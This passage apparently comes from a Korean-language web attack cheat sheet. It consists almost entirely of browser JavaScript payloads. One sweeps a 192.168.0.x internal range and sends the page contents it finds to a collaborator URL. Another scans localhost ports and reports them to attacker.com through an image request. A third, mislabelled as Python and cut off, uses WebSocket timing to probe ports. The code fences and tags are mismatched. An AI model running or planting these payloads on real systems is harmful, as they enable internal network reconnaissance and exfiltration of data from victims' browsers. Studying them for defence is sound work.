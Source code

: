 ```html
var wait = 2000
var n_threads = 51

// Prepare the fetchUrl functions to access all the possible
for(i=1;i<=255;i++){
q.push(
function(url){
return function(){
fetchUrl(url, wait);
}
}('http://192.168.0.'+i+':8080'));
}

// Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
for(i=1; i<=n_threads; i++){
if(q.length) q.shift()();
}

function fetchUrl(url, wait){
console.log(url)
var controller = new AbortController(), signal = controller.signal;
fetch(url, {signal}).then(r=>r.text().then(text=>
{
location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
}
))
.catch(e => {
if(!String(e).includes("The user aborted a request") && q.length) {
q.shift()();
}
});

setTimeout(x=>{
controller.abort();
if(q.length) {
q.shift()();
}
}, wait);
}
</script>
```
### 포트 스캐너 (fetch)
```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```
### 포트 스캐너 (웹소켓)
```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
s.start = performance.now();
s.port = ports[i];
s.onerror = function() {
console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
};
s.onopen = function() {
console.log("Port " + this.port+ ": " + (performance.now() -this.start) + " ms");
};
```